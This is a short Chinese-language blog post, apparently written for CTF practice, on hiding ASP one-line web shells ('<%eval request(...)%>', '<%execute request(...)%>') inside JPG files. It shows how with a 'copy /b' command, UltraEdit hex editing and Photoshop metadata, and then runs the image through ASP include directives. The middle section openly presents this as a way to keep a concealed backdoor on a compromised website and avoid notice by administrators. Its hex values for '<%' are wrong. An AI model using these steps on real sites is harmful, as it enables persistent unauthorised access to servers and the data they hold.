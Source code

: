 # 制作图片马

[2018-11-20]()

## [](#前言 "前言")前言

打CTF遇到需要图片马的题，现学一下如何制作图片马。  

## [](#0x01-Copy命令 "0x01 Copy命令")0x01 Copy命令

先准备两个东西：

* 1.asp `<%eval request("value") %>`
* 1.jpg 随便一个图片

打开cmd，输入命令：

```
copy 1.jpg/b+1.asp/a 2.jpg
```

![](1.png)

然后对比`1.png`和`2.png`的源码

* 1.png  
  ![](3.png)

* 2.png  
  ![](2.png)

且`2.png`可以正常打开，没有影响

把以下代码放入目标网站，即可按asp执行。

```
<% #include files=”2.jpg”%>
```

* * *

## [](#0x02-Uedit32 "0x02 Uedit32")0x02 Uedit32

我们通常在得到webshell之后都想给自己留个后门，等下次或以后有用得到的时候再进来看看。但如果直接加入一句话木马`<%execute request("value")%>`到asp文件中时，在该页面上就会出错

然后换个思路，使用插入一句话木马的图片做我们的后门。而且我们如果有足够的权限的话（网站中的文件可写），就直接把网站原有的图片变成后门，然后在那个asp文件中加入调用图片后门的代码：  
<!--#include file="图片后门地址"-->  
这样就没有上面的“类型不匹配: ‘execute’”错误了，而且也更好的隐藏了我们的后门。

当我们直接将一句话木马的asp文件改成jpg或gif文件的时候，这个图片文件是打不开的，很容易被管理员发现。换一种方法：制作可以显示图片内容的图片格式后门。

1.  准备工作：

    * 1.jpg\(随便一张图片\)
    * 一句话木马：`<%execute request("value")%>`
    * Script标签： `<script runat=server language=javascript>内容</script>`
    * 调用后门代码：`<!-- #include file="图片地址"-->`
    * 工具：UltraEdit

2.  开始制作：  
    使用UltraEdit打开1.jpg文件，找到`<%`和`%>` 其中`<%`的十六进制代码是`3E 25`,`%>`的十六进制代码是`25 3E`，然后把25改成00

![](1.jpg)

然后将script标签代码  
\&lt;\%execute request\(“value”\)\%\&gt;  
转换为十六进制，粘贴到1.jpg的十六进制代码的最下面。必须粘贴到最下面，否则就把图片破坏了。  
最后保存退出，图片后门就做成了。

注：如果网站的asp网页可以被写入，那将`<!--#include file="1.jpg"-->`直接插入到网页中，这样这个网页的url就成了使用菜刀连接的后门地址了；

## [](#0x03-PS插入 "0x03 PS插入")0x03 PS插入

1.  用PS打开一张图片
2.  点击文件->文件简介
3.  然后插入需要的木马代码
4.  然后保存即可